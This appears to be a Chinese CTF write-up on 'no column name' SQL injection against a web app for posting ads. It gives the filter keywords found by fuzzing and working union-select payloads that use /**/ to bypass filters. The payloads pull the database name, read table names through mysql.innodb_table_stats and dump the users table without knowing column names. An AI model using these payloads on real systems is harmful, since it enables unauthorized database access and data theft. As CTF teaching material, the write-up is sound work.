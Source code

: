 ### 无列名注入

![](https://pic1.imgdb.cn/item/67b31551d0e0a243d40041ad.png)

打开页面是个登录页面

![](https://pic1.imgdb.cn/item/67b3210bd0e0a243d4004609.png)

先注册一个账号

![](https://pic1.imgdb.cn/item/67b32131d0e0a243d400460d.png)

登录进去有一个申请发布广告

![](https://pic1.imgdb.cn/item/67b3214dd0e0a243d4004611.png)

申请广告时标题输入 and 提示敏感词汇

![](https://pic1.imgdb.cn/item/67b3218bd0e0a243d400461e.png)

换为 ' 申请广告

![](https://pic1.imgdb.cn/item/67b321c7d0e0a243d400462b.png)

点击广告详情

![](https://pic1.imgdb.cn/item/67b321f6d0e0a243d4004631.png)

发现有 SQL 报错

![](https://pic1.imgdb.cn/item/67b321e9d0e0a243d4004630.png)

进行 fuzz 测试发现以下被过滤

```sql
空格被替换为空
or
and
join
--+
#
updatexml
extractvalue
exp
floor
...
```

order by`不能使用，可以使用`group by`或者`into @a, @b, @c, ...

```sql
'group/**/by/**/23,'
```

![](https://pic1.imgdb.cn/item/67b32387d0e0a243d4004673.png)

23 报错说明只有 22，联合查询拿数据库名

```sql
'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

![](https://pic1.imgdb.cn/item/67b32312d0e0a243d4004664.png)

因为这里过滤 `or` 所以也无法使用 `information_schema` 表，也没有 `sys` 表，所以使用 `mysql.innodb_table_stats`

```sql
'union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 '
```

![](https://pic1.imgdb.cn/item/67b32456d0e0a243d4004688.png)

但是因为没有字段信息可以查，使用无列名注入直接查内容

```sql
'union/**/select/**/1,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 '
```

